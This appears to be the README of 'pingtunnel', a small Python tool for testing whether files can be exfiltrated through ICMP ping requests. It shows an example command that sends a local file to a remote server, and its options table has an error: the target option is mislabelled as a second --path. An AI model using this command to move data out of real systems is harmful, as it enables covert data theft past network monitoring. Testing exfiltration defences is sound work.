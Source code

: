 # Description

Test possible data exfiltration through ping requests

# Installation

`pip install pingtunnel`

# Usage

**From command line:**

`python -m pingtunnel --path PATH --target TARGET`

| Option | Short | Type | Default | Description |
|---|---|---|---|---|
|--path | -p | String | - | Path to file to be exfiltrated |
|--path | -p | String | - | IP of exfiltration server |


# Example

`python -m pingtunnel -p ./example.jpg -t 10.10.10.10`

- Make sure to use `tcpdump` or `wireshark` on the exfiltration server in
order to capture the ping requests

```
################################################################################

pingtunnel by 5f0
Test possible data exfiltration through ping requests

Current working directory: path/to/pingtunnel

Datetime: 01/01/1970 10:11:12

################################################################################

Status
---
    Exfiltration Server: 10.10.10.10
 File to be exfiltrated: ./example.jpg

  Total Number of Bytes: 1094
Number of Ping Requests: 35.0


Execution
---
-> Split ./example.jpg in 35.0 chunks
-> Send chunks


--> Transmission successful!

################################################################################

Execution Time: 0.014563 sec
```

# License

MIT